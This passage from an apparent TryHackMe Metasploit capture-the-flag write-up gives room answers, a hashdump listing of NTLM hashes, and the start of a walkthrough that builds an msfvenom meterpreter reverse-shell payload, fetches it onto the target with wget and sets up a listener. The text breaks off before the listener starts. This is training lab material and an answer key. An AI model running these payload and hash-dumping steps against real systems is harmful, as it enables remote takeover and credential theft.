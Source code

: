 ```bash
cat /Users/Jon/Documents/flag.txt
```

**Ans:** `THM-5455554845`

#### 3) What is the NTLM hash of the password of the user "pirate"?

*we can use `hashdump` to achieve this*

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::
```

**Ans:** `8ce9a3ebd1647fcc5e04025019f4b875`

---

## Task 6 - Msfvenom

#### 6) What is the other user's password hash?

*Follow the task instructions.*

```bash 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.48.81.220 LPORT=7777 -f elf > rev_shell.elf
```

```bash 
python3 -m http.server 9000
```

```bash
ssh murphy@10.48.177.203
sudo su
```

```bash 
wget http://10.48.117.203:9000/rev_shell.elf
```

```bash
chmod +x rev_shell.elf
```

*In `msfconsole` terminal:*

```bash
use multi/handler
```

```
set payload linux/x86/meterpreter/reverse_tcp
```

```bash
set LHOST 10.48.81.220
set LPORT 7777
```
